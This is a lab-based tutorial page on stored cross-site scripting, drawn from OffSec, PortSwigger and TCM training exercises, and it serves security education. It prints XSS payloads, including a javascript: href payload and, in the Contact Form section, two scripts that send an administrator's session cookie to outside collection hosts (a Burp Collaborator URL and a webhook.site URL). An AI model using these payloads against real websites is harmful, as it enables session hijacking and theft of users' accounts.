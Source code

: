 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Stored

{% hint style="info" %}
**Stored XSS** occurs when malicious scripts are permanently stored on the server and then served to users who view the stored content.
{% endhint %}

{% hint style="danger" %}
This can lead to persistent attacks, where the malicious script runs every time the stored content is accessed, potentially stealing user data, performing actions on behalf of users, or defacing the website.
{% endhint %}

## Stored Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The Blog we are testing has two fields: `username` and `comment`. When we test the latter for HTML injection it does not work as the `<>` characters are filtered out by the application (Figure 1). However, the HTML injection works on the `username` field (Figure 2).

<figure><img src="../../../.gitbook/assets/web_xss_stored_server_1.png" alt=""><figcaption><p>Figure 1: Testing the <code>comment</code> field for HTML injection.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/web_xss_stored_server_2.png" alt=""><figcaption><p>Figure 2: Enumerating a vulnerable to HTML injection field.</p></figcaption></figure>

Next, we can test for XSS on the `username` field (Figure 3), and if successful, every user that visits the page will have the payload executed on their browser.

<figure><img src="../../../.gitbook/assets/web_xss_stored_server_3.png" alt=""><figcaption><p>Figure 3: Enumerating a vulnerable to XSS field.</p></figcaption></figure>

## Stored Client XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This time the application in question has a survey form to complete that includes six fields in total, two of them vulnerable to **HTML injection** (Figure 4).&#x20;

<figure><img src="../../../.gitbook/assets/web_xss_stored_client_1.png" alt=""><figcaption><p>Figure 4: Stepping through the application and testing for HTML injection.</p></figcaption></figure>

If we test for XSS we get a prompt box back (Figure 5.1), and we can review how this exactly works via the source code of `survey.js` file. At the end of this file, the `getData` function sends a `GET` request and constructs the results table on the front-end (Figure 5.2).

<figure><img src="../../../.gitbook/assets/web_xss_stored_client_2.png" alt=""><figcaption><p>Figure 5: Achieving XSS and reviewing how it worked.</p></figcaption></figure>

## href Attribute

> _The example below is based on PortSwigger's_ [_Stored XSS into anchor `href` attribute with double quotes HTML-encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded) _lab._

In this application there is a comment functionality which includes a `Website` field and its value is stored within the HTML `href` attribute (Figure 6).

<figure><img src="../../../.gitbook/assets/web_xss_stored_1.png" alt=""><figcaption><p>Figure 6: Identifying potential XSS vectors.</p></figcaption></figure>

We can try escaping the tag using different payloads, but, unfortunately, none of them works.

```javascript
// JaveScript payloads used to escape 
"><script>alert()</script>
"><img src=x onerror=alert()>
```

However, **the `href` attribute can itself create a** [**scriptable context**](https://blog.udemy.com/javascript-href/), thus, we are not required to escape it. In this case, we can use the `javascript` pseudo-protocol directly (Figure 7).

```javascript
// JaveScript payloads used
javascript:alert()
```

<figure><img src="../../../.gitbook/assets/web_xss_stored_2.png" alt="" width="563"><figcaption><p>Figure 7: Achieving Stored XSS via a URI-scheme based payload.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a ticket functionality and it give us access to both a low- (`UserA`) and a high-privileged account (`AdminA`) (Figure 8).

<figure><img src="../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 8: Setting up FireFox's  <a href="../../authorization/automated-a-b-testing.md#multi-account-containers">Multi-Account Containers</a> for XSS testing.</p></figcaption></figure>

We can use a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), and use `userA` to send a JavaScript payload to `AdminA` through the description box on the Support Ticket page. When the latter receives and opens `userA`'s ticker, a `GET` request will be sent to our server containing `AdminA`'s session cookie (Figure 9 & 10).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com',
        {
            method: 'POST',
            mode: 'no-cors',
            body:document.cookie
        });
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 9: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>
